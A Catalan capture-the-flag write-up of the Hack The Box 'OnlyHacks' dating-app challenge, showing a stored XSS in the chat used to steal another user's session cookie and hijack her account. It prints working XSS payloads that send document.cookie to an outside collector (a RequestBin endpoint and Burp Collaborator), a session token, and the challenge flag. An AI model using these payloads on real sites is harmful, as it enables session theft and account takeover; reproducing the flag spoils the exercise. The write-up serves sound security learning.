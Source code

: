 Al llarg del challenge hi ha varis canvis d'usuari (sempre amb la mateixa foto de perfil) i diferents inicis de sessió ja que l'he fet en més d'un dia.

Aquest challenge no té fitxers per ser descarregats, simplement ens hem de connectar al challenge i veure la aplicació web que se'ns mostra. Sembla que ens trobem davant una aplicació de cites rollo Tinder al clicar per fer-nos un compte:

![image](https://github.com/user-attachments/assets/f862413c-08de-47cc-8cad-0f1e17cfa69d)


![image](https://github.com/user-attachments/assets/969aa58f-2213-4dab-9b57-46bb2717736b)


Es confirma al fer-nos el compte que és una aplicació de cites. Li posaré like a totes les noies per veure com va la aplicació web:

![image](https://github.com/user-attachments/assets/c547a843-44c3-4720-9e0d-2c8c20b97727)


Un cop acabada la gent de la app a la qual podem posar like o descartar, anem a dalt a la dreta a la pestnaya Matches i veiem que hem fet match amb la Renata i que podem parlar amb ella:

![image](https://github.com/user-attachments/assets/716f07a0-a183-4620-8839-d5d0487ac468)


Ara que tenim accés al xat, provarem un atac XSS utilitzant els elements habituals del llenguatge JavaScript per fer càrregues útils malicioses, per exemple provem això trobat a la pàgina web següent https://www.invicti.com/learn/cross-site-scripting-xss/ on hi ha un llistat amb vàris atacs XSS a provar:

- `<script> alert("XSS");</script>`

I ha funcionat!!

![image](https://github.com/user-attachments/assets/6962215b-5763-457d-a55d-473efbe35f49)


Ara, el que sembla que haurem de fer és robar la seva cookie ja que si llegim la descripció del challenge traduïda al català posa "Les cites i les relacions poden ser emocionants, especialment durant Sant Valentí, però és important estar atent als impostors. Pots ajudar a identificar possibles fraus?" cosa que si robem la seva cookie de sessió ens permetria fer-nos passar per ella, i,  com és lògic en una aplicació web, hi ha una cookie com la nostra propia que ens manté connectats a l'aplicació:

![image](https://github.com/user-attachments/assets/be478d70-d6db-410e-a016-1063cfdd601e)


Després d'investigar força, veig gràcies a aquesta pàgina https://medium.com/@marduk.i.am/exploiting-cross-site-scripting-to-steal-cookies-3d14c8b42fae que posant a la consola del navegador el següent codi Javascript ``document.cookie`` puc obtenir la cookie de sessió, la meva, però almenys ja sé on haig de buscar:

![image](https://github.com/user-attachments/assets/14c8e1ce-ccb6-4114-8b03-1279bd561055)


He trobat aquest repo de GitHub: https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md  que ens serà molt útil per intentar aconseguir la cookie de sessió de la Renata. El primer que faig és provar el primer que hi ha amb Burpsuite: 

```
<script>
fetch(`https://burpcollaborator.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

Ho enviem amb el mètode post, per tant hem de veure la petició amb el mètode post a veure si ens retorna la seva cookie però no ha funcionat. I no ens funciona perquè no estem a la mateixa xarxa que aquesta aplicació web que està oberta a tot internet, i al no estar a la mateixa xarxa connectats per VPN per exemple, doncs no és tant senzill com obrir un port amb netcat i rebre el resultat de la petició, és a dir la cookie de sessió.

Veig per internet que hi ha gent que utilitza RequestBin: https://requestbin.whapi.cloud/ per fer això, ja que és **una de les formes més fàcils i ràpides** de capturar peticions com les que farem. Anem a la pàgina i cliquem a Create a RequestBin::

![image](https://github.com/user-attachments/assets/6c395647-568d-46a7-915e-8caf72a8f91b)


I això el que fa és donar-nos un endpoint:

![image](https://github.com/user-attachments/assets/93d62bc6-3c86-4a6a-8be2-669fee096e02)



És el que veiem a l'exemple de petició curl: 

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "fizz=buzz" http://requestbin.whapi.cloud/1gt3rv21
ok
````

Ara adaptant aquest payload XSS amb l'endpoint que hem obtingut hauríem de poder robar la cookie de sessió:

```
`<script>
fetch(`http://requestbin.whapi.cloud/y4kuv3y4`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>`
```

Com que no ha funcionat, provarem un altre payload:

```
`<script>
fetch(`http://requestbin.whapi.cloud/y4kuv3y4/x`+document.cookie);
</script>`
```

I ara sí que ha funcionat, amb el segon de la llista del repo que hem trobat. Veiem com jo tinc una cookie de sessió: 

![image](https://github.com/user-attachments/assets/88f910c9-c83c-4887-a074-af76ed09f1b9)


``session:"eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6InBvbGlQb2wifX0.Z_LUFQ.HpFWSP0XNHIldUZEKR4Lb6dXVL4"``

Les cookies estan en  JWT amb base64.

I, al enviar aquest atac XSS per el chat hem obtingut la cookie de sessió de la Renata, a la imatge tenim la seva cookie de sessió primer, i la segona és la nostra. Sabem que és la de la Renata perquè  la víctima estava accedint **a una app local en port 5000** ja que veiem que està en localhost(127.0.0.1), per exemple amb Flask (del qual tinc una api d'autenticació que genera tokens molt similars) o una app de desenvolupament en un entorn local i també veiem l’IP pública (via Cloudflare) de la víctima real que és diferent a la meva i que és la que ens dona HTB. 

![image](https://github.com/user-attachments/assets/bd8027f2-58d9-47c8-80fa-4407b4148dbe)


En resum, hem injectat **un payload XSS** en una aplicació que corria localment per la víctima (`127.0.0.1:5000`). El navegador de la víctima ha executat el codi JS i ha enviat la **cookie de sessió** al nostre **requestbin** on l'hem rebut **amb èxit** i ara fem un **session hijack** si el servidor no utilitza **HttpOnly** a la cookie, que veiem que no:

![image](https://github.com/user-attachments/assets/31e55be7-059b-4d4d-b72e-f00a69b00e74)


Ara, haurem de canviar la nostra cookie de sessió per la seva per "robar" el seu usuari. oh he hagut de fer amb el Google Chrome ja que amb el Mozilla Firefox no me'n sortia a la hora de canviar la cookie 🤣​:

![image](https://github.com/user-attachments/assets/d29bd1ae-e278-4916-8361-6c963aca73cf)


Un cop fet això, estem a la sessió de la Renata, i veiem que a part de parlar amb nosaltres (l'usuari poliPol) amb la foto de perfil d'en Charles Leclerc a Japó 2025 parla amb un altre usuari de l'aplicació anomenat Dimitris, qui, en el seu xat té la flag del challenge!!!

![image](https://github.com/user-attachments/assets/e2d662ca-d6d3-4893-8397-0a07af17413c)
]

HTB{d0nt_trust_str4ng3r5_bl1ndly}

Per tant, ara ja la podem copiar a HTB i completar el challenge OnlyHacks (per cert, bon missatge de la flag de no creures a estranys cegament o a cegues 🤣):

![image](https://github.com/user-attachments/assets/f3cd409e-1f5f-479b-bc86-b5559235fec7)



He fet aquest challenge arrel de veure el video d'en s4vitar fent-lo.
